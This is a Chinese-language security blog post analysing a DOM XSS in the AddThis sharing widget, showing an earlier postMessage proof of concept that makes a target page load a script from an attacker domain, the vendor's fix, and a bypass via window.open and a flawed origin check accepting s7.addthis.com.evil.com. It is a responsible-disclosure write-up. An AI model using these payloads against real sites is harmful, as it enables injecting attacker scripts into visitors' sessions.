 title: "分享插件AddThis导致的DOM XSS"
date: 2016-12-25 14:03:41
tags: ["安全", "XSS"]

---

## 背景

说明：这个漏洞是 https://labs.detectify.com/2016/12/15/postmessage-xss-on-a-million-sites/ 修复的绕过，目前已经报告给AddThis并得到修复。

> AddThis是由多姆·沃纳伯格（Dom Vonarburg）创立并由Clearspring公司拥有的一个社会性书签服务。它可以与网站进行整合，访客即可用它将网站上的某些内容通过其他网络服务收藏或分享，诸如Facebook、MySpace、Google书签、Twitter等
> From https://zh.wikipedia.org/wiki/AddThis

使用的例子有：

![](http://ww4.sinaimg.cn/large/7184df6bgw1fb30n0dmyqj20nd08o0wd.jpg)

![](http://ww4.sinaimg.cn/large/7184df6bgw1fb30nhwnasj20rq0bddho.jpg)

## 分析

使用这款插件，需要在网页上加入类似以下的代码

```html
<!-- Go to www.addthis.com/dashboard to customize your tools -->
<script src="//s7.addthis.com/js/300/addthis_widget.js#pubid=ra-538ceb912f1cca19" async="async"></script>
```

当插件加载完成后，就会监听`message`事件。

![](http://ww3.sinaimg.cn/large/7184df6bgw1fb3110ele5j21340em79m.jpg)

看完前面提到的那篇文章之后，我们可以知道在这个事件处理函数中，如果`message`事件处理函数接收到一个 *合法来源* 的消息，消息内容如下：`at-share-bookmarklet://example.com/xss.js`时，就会动态在页面中插入指定的JS脚本。之前的漏洞是在这里根本没有检查消息的来源就直接加载执行导致了DOM XSS，原先的PoC：

```html
<iframe id="frame" src="https://targetpage/using_addthis"></iframe>

<script>
document.getElementById('frame').contentWindow.postMessage('at-share-bookmarklet://ATTACKERDOMAIN/xss.js', '*');
</script>
```

AddThis对这个漏洞进行的修复如下：
1. 添加检查当前窗口是不是被嵌套在：`iframe`, `frame`等标签里，如果是，则不监听`message`事件。
2. 检查来源

修复后的代码如下：

```js
, c = window.parent === window;
...
c && u(window, "message", function(e) {
  if (e) {
      var t = _atr.substring(0, _atr.length - 1)
        , n = e.origin.indexOf(t) === "https:".length || e.origin.indexOf(t) === "http:".length || /^https?:\/\/(localhost:\d+|localhost$)/.test(e.origin)
        , o = "string" == typeof e.data;
      if (o && n) {
          var a = e.data.match(/at\-share\-bookmarklet\:(.+?)$/) || []
            , i = a[1];
          if (i) {
              try {
                  _ate.menu.close()
              } catch (s) {}
              r(i)
          }
      }
  }
})
```

1. 其中`_attr`的值为`//s7.addthis.com/`，那么`t`的值就是`//s7.addthis.com`
2. `e.origin`是调用了`postMessage`这个API的来源
3. 什么时候`o && n`的值会是真呢？例如站点：`http://s7.addthis.com/`向目标站点发送消息的时候

但这个修复真的没有问题了吗？在使用postMessage进行跨域通信的时候，有以下几种场景：

1. 父窗口与iframe，frame等标签里的子网页进行通信，即上面那个PoC
2. 使用window.open打开一个新的窗口

  ```js
  var win = window.open("http://target.com/index.html");
  win.postMessage("this is a message", "*");
  ```

  `http://target.com/index.html`这个页面就可以监听`message`事件获取到以上的消息。


也就是说，对于一个安装了这个插件的目标站点，我们依旧可以通过方法2发送一个消息给他。另外，这里的域名检查也不完善，简单的说，只要是`s7.addthis.com`开头的域名都是合法的，如`s7.addthis.com.evil.com`

```js
> e.origin = 'http://s7.addthis.com.evil.com'
> e.origin.indexOf(t) === "http:".length
< true
```

<script type="text/javascript" src="https://cdn.rawgit.com/zhchbin/zhchbin.github.io/source/js/addthis_widget.js"></script>
